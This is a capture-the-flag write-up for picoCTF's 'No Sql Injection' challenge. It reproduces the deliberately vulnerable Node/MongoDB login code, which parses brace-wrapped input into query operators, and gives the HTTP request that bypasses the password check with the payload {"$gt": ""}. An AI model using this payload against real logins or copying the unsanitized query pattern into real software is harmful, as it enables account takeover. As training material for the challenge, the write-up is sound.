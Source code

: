 # Challange Info

Name : No Sql Injection

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/443?category=1&page=2

# Writeup

Navigating the webpage http://atlas.picoctf.net:49776/.

Looking at server.js source code.

```javascript
const express = require("express");
const bodyParser = require("body-parser");
const mongoose = require("mongoose");
const { MongoMemoryServer } = require("mongodb-memory-server");
const path = require("path");
const crypto = require("crypto");

const app = express();
const port = process.env.PORT | 3000;

// Middleware to parse JSON data
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));

// User schema and model
const userSchema = new mongoose.Schema({
  email: { type: String, required: true, unique: true },
  firstName: { type: String, required: true },
  lastName: { type: String, required: true },
  password: { type: String, required: true },
  token: { type: String, required: false, default: "{{Flag}}" },
});

const User = mongoose.model("User", userSchema);

// Initialize MongoMemoryServer and connect to it
async function startServer() {
  try {
    const mongoServer = await MongoMemoryServer.create();
    const mongoUri = mongoServer.getUri();
    await mongoose.connect(mongoUri);

    // Store initial user
    const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org",
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
    });
    await initialUser.save();

    // Serve the HTML form
    app.get("/", (req, res) => {
      res.sendFile(path.join(__dirname, "index.html"));
    });

    // Serve the admin page
    app.get("/admin", (req, res) => {
      res.sendFile(path.join(__dirname, "admin.html"));
    });

    // Handle login form submission with JSON
    app.post("/login", async (req, res) => {
      const { email, password } = req.body;

      try {
        const user = await User.findOne({
          email:
            email.startsWith("{") && email.endsWith("}")
              ? JSON.parse(email)
              : email,
          password:
            password.startsWith("{") && password.endsWith("}")
              ? JSON.parse(password)
              : password,
        });

        if (user) {
          res.json({
            success: true,
            email: user.email,
            token: user.token,
            firstName: user.firstName,
            lastName: user.lastName,
          });
        } else {
          res.json({ success: false });
        }
      } catch (err) {
        res.status(500).json({ success: false, error: err.message });
      }
    });

    app.listen(port, () => {
    });
  } catch (err) {
    console.error(err);
  }
}

startServer().catch((err) => console.error(err));
```

We get the email `picoplayer355@picoctf.org` and password is random but there is a No Sql Injection.

Capture the login request and send it to repeater.

```
POST /login HTTP/1.1

Host: atlas.picoctf.net:49776

Content-Length: 70

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Content-Type: application/json

Accept: */*

Origin: http://atlas.picoctf.net:49776

Referer: http://atlas.picoctf.net:49776/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive

{
  "email":"picoplayer355@picoctf.org",
  "password":"---"
}
```

Modify the password with a No SQL payload.

```
POST /login HTTP/1.1

Host: atlas.picoctf.net:49776

Content-Length: 70

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Content-Type: application/json

Accept: */*

Origin: http://atlas.picoctf.net:49776

Referer: http://atlas.picoctf.net:49776/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive

{
  "email": "picoplayer355@picoctf.org",
  "password":"{\"$gt\": \"\"}"
}
```

`Note : Normal payload won't work as the server shows not a function error if any of json parameters starts with "{" and ends with "}".`
